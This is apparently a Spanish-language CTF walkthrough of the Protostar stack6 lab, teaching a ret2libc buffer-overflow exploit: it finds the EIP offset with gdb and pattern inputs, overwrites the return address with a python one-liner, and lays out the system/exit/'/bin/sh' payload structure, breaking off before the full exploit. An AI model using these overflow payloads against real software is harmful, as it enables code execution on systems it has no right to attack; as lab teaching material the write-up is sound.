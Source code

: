 ```console
```

---------------------------------------------------------------------------

# Ret2libc 
> [stack6](https://exploit.education/protostar/stack-six/)

Con el stack 6 no podemos inyectar shellcode en la pila, ya que no nos permite volver a ella poniendola en el eip. Entonces como no hay shellcode, hay
que aprovecharse de código que ya existe en el programa, en concreto las funciones de stdlib de C.

```console
[user@protostar]-[/opt/protostar/bin]:$ python -c "print('A'* 75 )"| ./stack6
input path please: got path AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
[user@protostar]-[/opt/protostar/bin]:$ python -c "print('A'* 76 )"| ./stack6
input path please: got path AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Segmentation fault
```
A partir de las 76 da el SEGFAULT, pero dónde está el eip? Vamos a meter un patrón reconocible para ver dónde está.

```console
[user@protostar]-[/opt/protostar/bin]:$ python -c "print('A'* 76 + 'BBBBCCCCDDDDEEEEFFFFGGGG' )" > /tmp/pattern
[user@protostar]-[/opt/protostar/bin]:$ gdb ./stack6
(gdb) disas getpath
... Muchas instrucciones :V
0x080484f8 <getpath+116>:	leave
(gdb) b *0x080484f8
(gdb) run < /tmp/pattern
Breakpoint alcanzado!
(gdb) c
Continuing.
Program received signal SIGSEGV, Segmentation fault. 0x43434343 in ?? ()
```
0x43 son las C, asi que despues de 80 "A" (76 +4) está el eip.
Para este ejercicio se usará la técnica de ret2libc ya que no se puede saltar a la pila (le metemos la direccion 0xbffff69c que es algo despues del eip)

```console
[user@protostar]-[/opt/protostar/bin]:$ python -c "print('A'* 80 + '\x9c\xf6\xff\xbf' )"| ./stack6
input path please: bzzzt (0xbffff69c)
```
Para hacer ret2libc se tiene que conseguir estas tres direcciones y pasarselas como input:

> **RET2LIBC:** offset + función(&system) + retorno(&exit) + argumentos("bin/sh") 

Como hemos visto en la seccion de [estructura de un binario](https://github.com/CUCUxii/CUCUxii.github.io/blob/main/Binarios/Estructura%20de%20un%20binario.md) Se le pasa al eip la dirección de la función system que es la que nos interesa ahora, una vez alli, sabemos que
una función tiene un trozo de memoria donde está primero la dirección de retorno y luego los argumentos. 
